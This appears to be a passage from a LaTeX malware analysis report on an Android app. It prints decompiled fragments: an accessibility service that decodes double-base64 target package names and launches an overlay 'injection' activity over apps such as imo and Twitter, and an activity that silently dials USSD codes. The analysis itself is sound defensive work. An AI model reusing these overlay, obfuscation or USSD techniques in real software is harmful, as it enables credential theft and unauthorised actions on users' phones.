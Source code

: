 \documentclass[10pt,titlepage]{article}
\begin{document}
\begin{lstlisting}[label=serviceaccessibilityfddorun,caption=The function \textit{naqsl.ebxcb.exu.ServiceAccessibility\$fddo.run()} launches the \textit{naqsl.ebxcb.exu.Activity.ActivityInjection} if a known App is on top of the screen.,frame=tb]
public void run() {
            [...]
            // com.imo.android.imoim,com.twitter.android
            String str2 = "WTI5dExtbHRieTVoYm1SeWIybGtMbWx0Y" +                   
                          "jJsdExHTnZiUzUwZDJsMGRHVnlMbUZ1WkhKdmFXUT0=";
            if (str.contains(Cint.m430int(Cint.m430int(str2)))) {
                Cint intR2 = ServiceAccessibility.this.ifdf;
                String str3 = Cint.m430int(Cint.m430int(str2));
                Cint intR3 = ServiceAccessibility.this.ifdf;
                // com.imo.android.imoim,com.twitter.android,com.android.vending
                str = str.replace(str3, Cint.m430int(Cint.m430int(
                      "WTI5dExtbHRieTVoYm1SeWIybGtMbWx0YjJsdExHT" + 
                      "nZiUzUwZDJsMGRHVnlMbUZ1WkhKdmFXUXNZMjl0TG" + 
                      "1GdVpISnZhV1F1ZG1WdVpHbHVadz09")));
            }
            [...] ServiceAccessibility.this.getSystemService("keyguard"))
                                             .inKeyguardRestrictedInputMode()) {
                    try {
                        Intent intent = new Intent(this.ifdf, ActivityInjection.class);
                        [...]
                        ServiceAccessibility.this.startActivity(putExtra);
\end{lstlisting}

\subsubsection{ENTER USSD CODES} \label{ussdcodes}
The Activity \textit{naqsl.ebxcb.exu.Activity.ActivityStartUSSD} implements the funciton 
\\ \textit{naqsl.ebxcb.exu.Activity.ActivityStartUSSD.onCreate()} that creates an intent with action \textbf{android.intent.action.CALL} and the USSD code as data parameter. (see \ref{ussdcodesoncreate})

\begin{lstlisting}[label=ussdcodesoncreate,caption=The function \textit{naqsl.ebxcb.exu.Activity.ActivityStartUSSD.onCreate()} starts an \textbf{android.intent.action.CALL} intent in order to execute an USSD code.,frame=tb]
public class ActivityStartUSSD extends Activity {
    [...]
    public void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        try {
            String encode = Uri.encode(getIntent().getStringExtra("str")
                                                        .replace("AAA", "#"));
            Intent intent = new Intent("android.intent.action.CALL");
            StringBuilder sb = new StringBuilder();
            sb.append("tel:");
            sb.append(encode);
            startActivity(intent.setData(Uri.parse(sb.toString())));
            [...]
\end{lstlisting}
\end{document}
